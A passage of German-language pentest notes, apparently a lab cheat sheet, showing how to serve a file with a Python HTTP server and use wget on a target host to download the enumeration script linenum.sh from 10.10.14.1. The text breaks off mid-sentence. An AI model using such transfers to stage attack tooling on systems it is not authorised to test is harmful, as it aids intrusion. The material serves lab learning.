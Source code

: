 Um Daten übertragen zu können von einer Maschine zu einer anderen können wir folgendes machen:
# Using wget
Dafür müssen wir im Verzeichnis wo unsere Datei sich befindet einen `python HTTP Server` laufen lassen, dieser ist zu gleich unser listining server
```shell-session
cd /tmp   #Hier befindet sich die Datei
python3 -m http.server 8000
```

Nun können wir com Zielhost die Datei runterladen
```shell-session
wget http://10.10.14.1:8000/linenum.sh
```
wenn du kein 